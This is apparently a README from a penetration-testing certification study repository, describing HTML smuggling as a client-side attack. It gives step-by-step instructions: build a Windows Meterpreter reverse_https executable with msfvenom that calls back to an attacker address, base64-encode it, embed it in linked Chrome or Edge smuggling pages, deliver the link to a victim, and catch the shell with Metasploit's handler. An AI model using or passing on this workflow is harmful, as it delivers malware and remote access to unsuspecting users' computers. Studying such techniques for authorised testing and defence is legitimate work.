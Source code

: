 ### HTMLSmuggling Presentation

HTML Smuggling is one of the Client-Side attacks that consist on trick someone to clik on a malicious link that redirects to a malicious web that download on his computer malware.

In this part of the repository we can find several HTML files that lead to the download of the client's browser of malicious code via JavaScript code.

The use of this files is as follows:

- Open a HTTP server, for example:

    ```bash
    sudo service apache2 start
    ```

- Create a Base64 Meterpreter executable:

    ```bash
    sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfstaged.exe

    base64 /var/www/html/msfstaged.exe
    ```

- Copy the Base64 payload onto the HTML file ([Chrome](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/HTMLSmuggling/HTMLSmuggling-Chrome.html) if the client is using Google Chrome or [Edge](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/HTMLSmuggling/HTMLSmuggling-Edge.html) if the client is using Microsoft Edge).

- Place the HTML file in the root directory of the HTTP server (var/www/html)

- Deliver the link.

- Make use of the multi/handler module of Metasploit Framework to catch the callback.